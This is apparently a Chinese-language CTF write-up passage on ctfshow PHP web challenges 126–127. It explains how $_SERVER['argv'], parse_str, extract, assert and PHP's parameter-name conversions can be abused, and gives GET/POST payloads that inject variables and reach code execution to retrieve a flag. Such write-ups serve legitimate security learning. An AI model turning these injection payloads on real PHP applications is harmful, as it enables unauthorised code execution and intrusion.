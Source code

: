 > **get_defined_vars()** 函数返回由所有已定义变量所组成的数组。
>
> **var_export()** 函数用于输出或返回一个变量，以字符串形式表示

Payload：CTF_SHOW=1&CTF[SHOW.COM=1&fun=var_export(get_defined_vars())

# 126 get请求+号处理 _SERVER[‘argv’]

> 用 get 方法 , 参数里有 “+” 时，到后台会被转义成空格
>
> assert() ，参数如果为字符串，会被当做php代码来执行
>
> $\_SERVER 是 [PHP](http://c.biancheng.net/php/) 预定义变量之一，可以直接使用，它是一个包含了诸如头信息（header）、路径（path）及脚本位置（script locations）信息的数组。
>
> $_SERVER['argv']
>
>  这时候的\$_SERVER\[‘argv’\]\[0\] = \$_SERVER[‘QUERY_STRING’]：
>
> ?a=b+c=d
>
> argv=>[a=b,c=d]
>
> Argv[0]=a=b
>
> Pars_str(argv[0])=> $a = b

payload

```
GET:?a=1+fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
or
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```

# 127 extract()

> extract() 函数从数组中将变量导入到当前的符号表。数组解构：

```php
<?php
$a = "Original";
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "\$a = $a; \$b = $b; \$c = $c";
?>
```

Payload：?ctf show=ilove36d

空格自动转为下划线
